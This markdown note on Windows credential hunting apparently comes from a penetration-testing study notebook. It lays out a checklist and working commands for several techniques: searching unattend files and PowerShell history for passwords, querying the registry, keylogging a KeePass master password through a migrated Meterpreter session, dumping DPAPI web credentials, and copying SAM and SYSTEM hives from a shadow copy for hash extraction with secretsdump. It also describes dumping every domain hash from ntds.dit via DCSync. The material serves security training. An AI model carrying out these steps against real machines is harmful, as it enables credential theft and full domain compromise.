

# 08 — Credential Hunting + SAM / NTDS / Windows Vault

> [!TIP]
> Credential hunting involves searching local file systems, memory, registry keys, password managers, and shadow copies for clear-text passwords, hashes, and API tokens.

---

## Table of Contents

- [Credential Hunting Execution Checklist](#credential-hunting-execution-checklist)
- [High-Yield Clear-Text Credential Target Locations](#high-yield-clear-text-credential-target-locations)
- [PowerShell PSReadLine History & Registry Searches](#powershell-psreadline-history--registry-searches)
- [KeePass Password Manager Exploitation](#keepass-password-manager-exploitation)
- [Windows Credential Manager & DPAPI Vaults](#windows-credential-manager--dpapi-vaults)
- [SAM & SYSTEM Hive Extraction via Volume Shadow Copy (VSS)](#sam--system-hive-extraction-via-volume-shadow-copy-vss)
- [NTDS.dit Active Directory Database Architecture](#ntdsdit-active-directory-database-architecture)

---

## Credential Hunting Execution Checklist

- [ ] **1. Unattended Install Files:** Search `Unattend.xml`, `sysprep.inf`, `web.config`, GPP `Groups.xml`.
- [ ] **2. PSReadLine Command History:** Check `ConsoleHost_history.txt` for plain-text passwords in executed commands.
- [ ] **3. Registry Password Mining:** Search `HKLM` and `HKCU` hives for `REG_SZ` keys matching "password".
- [ ] **4. KeePass Database (.kdbx):** Locate `.kdbx` files (`dir /s /b C:\*.kdbx`), migrate into user session context, capture master key/logins.
- [ ] **5. Windows Credential Vaults:** Enumerate DPAPI vaults (`vaultcmd /list`), decrypt Web Credentials via `Get-WebCredentials.ps1`.
- [ ] **6. SAM & SYSTEM Hive Extraction:** Create Volume Shadow Copy (`wmic shadowcopy call create`), copy SAM and SYSTEM hives, extract local account hashes via Impacket `secretsdump.py`.
- [ ] **7. NTDS.dit Active Directory Database:** Extract `ntds.dit` database and SYSTEM hive via VSS or DCSync to dump all domain user hashes.

---

## High-Yield Clear-Text Credential Target Locations

Hardcoded credentials often linger in unattended installation files, web application configuration files, and script logs:

- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\sysprep.inf`
- `web.config` files in IIS web roots (`C:\inetpub\wwwroot\`)
- Group Policy Preferences (`Groups.xml`, `Services.xml`, `ScheduledTasks.xml` - cpassword)

> **Source:** handwritten p. 52.

---

## PowerShell PSReadLine History & Registry Searches

### 1. PSReadLine Command History
PowerShell records every executed command per user session to an unencrypted text file:

```cmd
type C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### 2. Registry Password Search
Search `HKLM` and `HKCU` hives recursively for string keys containing "password":

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
> **Source:** handwritten p. 52.

---

## KeePass Password Manager Exploitation

KeePass stores credentials inside an encrypted `.kdbx` database file.



### KeePass Keylogging Workflow
1. Enumerate file system for `.kdbx` extension:
   ```cmd
   dir /s /b C:\*.kdbx
   ```
2. Migrate Meterpreter / Beacon process into user session context:
   ```text
   meterpreter > migrate <USER_EXPLORER_PID>
   ```
3. Start keylogger or dump memory when user unlocks KeePass.
4. Exfiltrate `.kdbx` file and open using captured master password.

> **Source:** handwritten pp. 41–44, 53.

---

## Windows Credential Manager & DPAPI Vaults

Windows Credential Manager stores web passwords, RDP credentials, mapped drive credentials, and certificate private keys protected by DPAPI.

```cmd
# List stored credential vaults
vaultcmd /list

# List properties of Web Credentials
vaultcmd /listproperties:"Web Credentials"
```

```powershell
# Decrypt and dump stored Web Credentials using PowerShell helper
. C:\AD\Tools\Get-WebCredentials.ps1
Get-WebCredentials
```
> **Source:** handwritten pp. 57–58.

---

## SAM & SYSTEM Hive Extraction via Volume Shadow Copy (VSS)

When local `SYSTEM` privileges are held, extract local account NTLM hashes directly from the SAM and SYSTEM registry hives.

### Volume Shadow Copy (VSS) Extraction Steps

```cmd
# Step 1: Create a Volume Shadow Copy of C: drive
wmic shadowcopy call create Volume='C:\'

# Step 2: List shadow copies to locate newly created shadow path
vssadmin list shadows

# Step 3: Copy SAM and SYSTEM hives from Shadow Copy path (e.g. \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1)
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\AD\Tools\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\AD\Tools\SYSTEM

# Step 4: Extract local account hashes offline using Impacket
python3 /opt/impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
```

> **Source:** handwritten pp. 53–55.

---

## NTDS.dit Active Directory Database Architecture

`ntds.dit` is the primary database file storing all Active Directory objects, user hashes, Kerberos keys, and schema definitions.

Location on Domain Controller:
```text
C:\Windows\NTDS\ntds.dit
```

### Core NTDS Tables
- **Data Table:** Contains all directory objects (Users, Computers, Groups, Passwords/Hashes, Trust keys).
- **Link Table:** Stores relationships and group memberships between objects.
- **Schema Table:** Defines allowed object classes and attribute structures.

> [!IMPORTANT]
> Dumping `ntds.dit` via Volume Shadow Copy or DCSync grants access to every password hash in the entire Active Directory domain.

> **Source:** handwritten p. 59.
